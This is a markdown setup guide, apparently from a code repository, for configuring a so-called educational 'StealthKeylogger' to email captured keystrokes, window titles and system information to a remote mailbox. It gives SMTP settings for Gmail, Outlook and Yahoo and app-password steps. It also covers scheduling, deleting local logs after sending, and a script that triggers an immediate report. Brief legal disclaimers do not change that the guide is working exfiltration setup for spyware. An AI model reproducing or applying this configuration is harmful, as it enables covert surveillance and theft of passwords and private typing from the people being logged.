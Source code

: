# Email Transmission Setup Guide

This guide explains how to configure the educational keylogger to send logs via email automatically.

## 📧 Email Configuration Options

The keylogger supports multiple email providers and can send logs automatically at specified intervals.

### 🔧 Configuration Settings

#### 1. Enable Email Transmission

```json
"transmission": {
  "enabled": true,          // Enable automatic transmission
  "method": "email",        // Use email method
  "interval_hours": 24,     // Send every 24 hours (or 0.1 for 6 minutes for testing)
  "delete_after_send": true, // Delete local logs after sending
  "retry_attempts": 3,      // Retry 3 times if failed
  "compress_before_send": true // Compress logs before sending
}
```

#### 2. Email Provider Settings

```json
"email": {
  "enabled": true,
  "smtp_server": "smtp.gmail.com",
  "smtp_port": 587,
  "use_tls": true,
  "sender_email": "your_email@gmail.com",
  "sender_password": "your_app_password",
  "recipient_email": "your_email@gmail.com",
  "subject_prefix": "Keylogger Report"
}
```

## 🌐 Supported Email Providers

### Gmail Configuration
```json
"smtp_server": "smtp.gmail.com",
"smtp_port": 587,
"use_tls": true
```
**Requirements:**
- Enable 2-factor authentication
- Generate App Password (not regular password)
- Use App Password in `sender_password` field

### Outlook/Hotmail Configuration
```json
"smtp_server": "smtp-mail.outlook.com",
"smtp_port": 587,
"use_tls": true
```

### Yahoo Mail Configuration
```json
"smtp_server": "smtp.mail.yahoo.com",
"smtp_port": 587,
"use_tls": true
```

### Custom SMTP Server
```json
"smtp_server": "your.smtp.server.com",
"smtp_port": 465,          // or 587
"use_tls": true            // or false for port 25
```

## 🔐 Security Setup (Gmail Example)

### Step 1: Enable 2-Factor Authentication
1. Go to Google Account Settings
2. Security → 2-Step Verification
3. Enable 2-factor authentication

### Step 2: Generate App Password
1. Google Account → Security → 2-Step Verification
2. Scroll down to "App passwords"
3. Select "Mail" and "Other (custom name)"
4. Enter "Educational Keylogger"
5. Copy the generated 16-character password

### Step 3: Configure the Keylogger
```json
"sender_email": "youremail@gmail.com",
"sender_password": "abcd efgh ijkl mnop",  // App password (with spaces)
"recipient_email": "youremail@gmail.com"
```

## 🚀 Quick Setup Example

1. **Copy example configuration:**
   ```bash
   cp examples/email_demo_config.json config/email_config.json
   ```

2. **Edit email settings:**
   ```bash
   nano config/email_config.json
   ```

3. **Update these fields:**
   ```json
   "sender_email": "YOUR_EMAIL@gmail.com",
   "sender_password": "YOUR_APP_PASSWORD",
   "recipient_email": "RECIPIENT@gmail.com"
   ```

4. **Test the configuration:**
   ```bash
   python main.py --config config/email_config.json --test
   ```

5. **Run with email enabled:**
   ```bash
   python main.py --config config/email_config.json
   ```

## 📨 Email Content

The keylogger sends emails with:

- **Subject:** `[Educational Keylogger Demo] Keylog Report - YYYY-MM-DD HH:MM`
- **Body:** Summary of captured keystrokes and system info
- **Attachments:** 
  - Encrypted log file (.enc)
  - Plain text summary
  - System information

## ⚙️ Advanced Options

### Custom Intervals
```json
"interval_hours": 0.1,     // Every 6 minutes (for testing)
"interval_hours": 1,       // Every hour
"interval_hours": 12,      // Twice daily
"interval_hours": 24,      // Daily (recommended)
"interval_hours": 168      // Weekly
```

### Security Options
```json
"delete_after_send": true,     // Remove local logs after sending
"compress_before_send": true,  // Reduce file size
"retry_attempts": 3,          // Retry failed sends
```

## 🧪 Testing Email Functionality

### Quick Test (6-minute interval):
```bash
# Use demo config with short interval
python main.py --config examples/email_demo_config.json
```

### Manual Email Test:
```python
# Test script
import sys
sys.path.append('src')
from src.core.keylogger import StealthKeylogger

keylogger = StealthKeylogger('examples/email_demo_config.json')
keylogger.send_email_report()  # Send test email immediately
```

## ⚠️ Important Notes

### Legal & Ethical:
- **Only use on systems you own**
- **Get explicit permission for testing**
- **This is for educational purposes only**

### Security Considerations:
- App passwords are safer than regular passwords
- Use encrypted email services when possible
- Consider using temporary/dedicated email accounts for testing
- Never hardcode passwords in shared code

### Troubleshooting:
- Check firewall settings for SMTP ports
- Verify app password is correct (no regular password)
- Test with simple email client first
- Check spam/junk folders for test emails

## 📊 Email Report Example

```
Subject: [Educational Keylogger Demo] Keylog Report - 2025-09-28 14:30

Body:
Educational Keylogger Report
===========================
Timestamp: 2025-09-28 14:30:15
Duration: 6 minutes
Total Keystrokes: 247
Special Keys: 18
Windows Captured: 3

Summary:
- Most active application: Terminal (150 keystrokes)
- Common keys: SPACE (25), BACKSPACE (12), ENTER (8)
- Time period: 14:24:15 - 14:30:15

Attachments:
- keylog_encrypted.enc (secured log file)
- system_info.txt (system details)

This is an automated educational report.
```

This email functionality allows you to remotely monitor the keylogger's activity and receive regular reports for your educational analysis!